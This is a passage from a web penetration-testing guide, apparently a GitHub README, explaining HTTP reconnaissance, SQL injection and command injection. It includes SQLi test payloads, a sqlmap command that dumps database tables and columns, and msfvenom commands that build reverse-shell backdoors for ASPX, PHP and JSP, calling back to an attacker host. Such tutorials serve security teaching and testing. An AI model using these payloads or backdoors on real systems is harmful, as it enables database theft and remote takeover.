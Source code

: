     These codes are common HTTP responses, but some web pages act in a different way. For example, if the requested URL does not exist, the service may reply with a 'HTTP 200' code and indicates the result with a notification text, instead of responding with a 'HTTP 404' code.
    
    Default pages, backup files and application versions can be very useful: 
    * Default pages may lead us to login pages, reveals common configurations and guessable user credentials.
    * Backup files may contain application credentials and other details. Attacker can restore it and see what is going on the application's backend.
    * Also application versions are important, because attackers can search for publicly known vulnerabilities. [Github](https://github.com), [Exploit-DB](https://www.exploit-db.com) and search engines are great sources for CVE records. Additionally, attackers can download same versions of the applications and simulate the target environment to find zero days. 

* A __SQL Injection Attack__ consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

  Some common SQLi control payloads:

  ```
  sql> select username,title,salary from UsersTable where userID = {id};
  
  http://URL?id=1337 or 1=1  -- 	//should always return True
  http://URL?id=1337 and 1=2 -- 	//should always return False
  ```

  Also 'sqlmap' can be very useful and time saver:

  ```
  $ sqlmap -u 'http://URL/?id=1337' -p 'id' --dbs --tables --columns
  ```
  If the 'id' param is vulnerable for SQLi attacks, 'sqlmap' performs various payloads to retrieve database tables, columns, contents, etc.
  

* __Command Injection__ is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.

	It is a very serious attack vector because attacker can interact with target operating system directly and run arbitrary commands.
	
	There are a couple different ways to perform it:
	
    * __Uploading malicious files__: Attackers can upload malicious executable files to target system and call them over URL path.

		To create a backdoor, we can use Metasploit framework. Here is an example for 3 different web payloads:
	```
	$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx >reverse.aspx
	$ msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
	$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw> reverse.jsp
	```
